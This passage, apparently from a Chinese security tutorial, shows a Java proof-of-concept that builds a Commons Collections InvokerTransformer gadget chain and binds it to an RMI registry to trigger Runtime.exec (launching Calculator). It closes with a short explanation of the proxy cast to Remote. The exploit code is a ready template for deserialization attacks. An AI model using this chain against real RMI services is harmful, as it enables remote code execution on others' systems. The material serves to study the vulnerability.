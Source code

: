 ```

public class UserServerEval {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class},
                        new Object[] {"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "Threezh1");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));
        Registry registry = LocateRegistry.createRegistry(3333);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 3333);
        registry_remote.bind("HelloRegistry", proxyEvalObject);
        System.out.println("rmi start at 3333");
    }
}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121434-87352020-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121434-87352020-459e-1.jpg)

这里有一个需要注意的点就是调用`bind()`的时候无法传入`AnnotationInvocationHandler`类的对象，必须要转为 Remote 类才行。这里使用了下面的方式进行转换：

```
InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap); // 将
Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));


```
